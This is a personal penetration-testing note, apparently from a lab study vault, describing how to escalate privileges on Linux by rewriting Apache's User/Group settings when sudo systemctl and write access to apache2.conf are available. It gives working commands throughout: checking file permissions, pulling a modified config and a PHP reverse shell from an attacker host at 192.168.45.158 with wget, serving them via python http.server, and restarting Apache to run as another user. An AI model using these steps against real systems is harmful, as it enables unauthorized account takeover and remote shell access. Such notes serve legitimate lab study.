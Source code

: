 -- -
If you can use sudo to run `systemctl` on #apache2 and control the service, and you can write to the config located at `/etc/apache2/apache2.conf`, then you can get use it to pivot into another user without credentials. 
### Resources
- [Where I learned the technique](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/apache-conf-privilege-escalation/)
### Sudo
You should see something like the following when you do `sudo -l`
![[Pasted image 20250129162244.png]]
If you are working in a reverse shell from the web app, then you may **need** to be able to restart the service, otherwise you can get away with start and stop. **If you restart the service on a webshell from the web app, the restart will boot you, if it works you can get it back**.
### apache2.conf
You will need to do the following:
```bash
ls -la /etc/apache2/apache2.conf
# you need write privs to it
```
Edit the file if you can with vim or nano or whatever. If default-ish, you should find:
```bash
# These need to be set in /etc/apache2/envvars
User www-data
Group www-data
```
Edit this section to whatever user you want to pivot to, you can try root but it didn't work when I learned it. 
```bash
# These need to be set in /etc/apache2/envvars
User mahakal
Group mahakal
```

If you can't open a text editor, you can just copy the output of the file to your attackbox and then edit it there, then do a [[Dark Arts I/File Transfer/~Home|file transfer]] or something like wget to overwrite the original:
```bash
wget -O apache2.conf http://192.168.45.158/apache2.conf
```
### Reverse shell
If you use the previous reverse shell method, the user will change if you do it again. You can also just put an easy reverse shell on the web server:
```bash
# in transfer folder with reverse shell
sudo python -m http.server 80

# then on the target
# note web server may be located elsewhere or with different directory names, but given this is for apache, it will be somwhere around here
cd /var/www/html

# then just
wget http://192.168.45.158/rev_shell.php

# then just go to it in your browser to trigger it
```
### Restart Apache Service
Now just restart the service to apply the new config. Remember if you are on a webshell, you will get booted off and if you messed anything up you will have closed the vector and have to restart the machine. 
```bash
sudo /bin/systemctl restart apache2
```
### hit the rev shell
Now either trigger the original exploit to get a reverse shell, or trigger the reverse shell you setup above and you should be the new user instead you specified in the config. 

